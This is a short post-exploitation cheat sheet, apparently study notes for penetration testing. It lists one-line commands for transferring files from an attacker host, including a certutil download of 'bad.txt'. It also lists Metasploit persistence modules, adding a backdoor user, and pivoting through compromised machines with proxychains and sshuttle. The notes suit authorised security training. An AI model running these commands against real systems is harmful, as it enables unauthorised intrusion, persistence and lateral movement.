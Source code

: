 ## Post Exploitation - Review

### 🚩 File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### 🚩 Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### 🚩 Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### Proxychains: Bind port, Proxychain, Proxy  

1. device 1 has access to device 2 which is not reachable from our attacker machine device 0  
2. proxychain and bind port is setup on device 0  
3. proxy tunnel on devive 1  
4. target is device 2

         Example Syntax

* ssh (into device 1 and setup a proxy tunnel with a bind port, so all traffic will be proxied through device 1, between device 0 and 2.)
* proxychains nmap 10.10.10.225 | scans device 2 with standard nmap syntax, because this is pchained it may be unstable on syn scanning. So switch to -sT as tcp scanning could be better

####  xfreerdp: RDP pivot into a device by placing proxychains infront of the normal syntax
   
      proxychains xfreerdp /u:administrator /p:'Password1' /v:10.10.10.225

####  Sshuttle

      sshuttle -r user@ip.of.device1 ip.of.target/24 --ssh-cmd "ssh -i pivot"
keep terminal live, move to new terminal. Aslong as the sshuttle terminal is live we can execute commands in the new terminal without having to type 'proxychains' infront of every command if using proxychain.

####  Chisel

---

### Cleaning up


